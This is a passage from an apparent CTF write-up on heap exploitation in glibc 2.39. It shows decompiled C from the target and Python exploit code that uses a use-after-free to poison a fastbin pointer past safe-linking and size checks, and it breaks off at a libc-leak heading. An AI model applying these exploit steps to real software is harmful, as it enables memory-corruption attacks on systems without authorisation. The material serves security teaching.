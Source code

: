 ## Allocate over pointer list

Now that the program uses fastbins, we can fake FD with the UAF vulnerability. Just like tcache, fastbins also has safe-linking in this version. The FD pointer is mangled and the chunk must be aligned to 16 bytes. Not only, fastbins has an annoying mitigation, the metadata size field must be correct (last 4 aren't evaluated). If we allocate a chunk of size 0x30 and it takes it from the fastbin, the size field from the metadata (which is located 8 bytes before the user data) must have a value ranging from 0x40 to 0x4f. The last 4 bits aren't evaluated ([see this](https://elixir.bootlin.com/glibc/glibc-2.39/source/malloc/malloc.c#L1390)). The program actually helps us by placing the size of any chunk we allocate in the pointer list:

```c
sz = getNum();
if ( sz <= 0 || sz > 80LL )
	return puts("invalid size");
*(v3 + 1) = sz;
*(v3 + 2) = calloc(1uLL, sz);
```

We will create a chunk of size 0x40 so that 0x40 gets placed in the pointer list, then we will allocate our chunk with the size field in the metadata right over that number. This way, we will have a chunk over pointer list while also passing the size check:

```python
################ Get chunk over pointer list ################
# Use the UAF to overwrite fastbin fd, also make sure to make it aligned and have the correct size in metadata
# We also need smaller chunks so that calloc doesn't zero out too much
# Notice how the size is also smaller than what we could've allocated. That is so that calloc doesn't zero out too much.
create(0x30, b'A')

secrets[1] = get_secret(1)

delete(1)

create(0x40, b'A') # create a chunk of size 0x40, because the program places the size in the pointer list and we need it
# to pass fastbin size and alignment check

# program places size in pointer array, we use that to pass fastbin size check, as well as the alignment requirement
ptr_list = elf.address + 0x40c0

edit(1, pack(mangle_ptr(heap_base + 0x2f0, ptr_list)))

create(0x30, b'B')
```

Next 0x30 allocation will return the pointer list.

## Libc leak

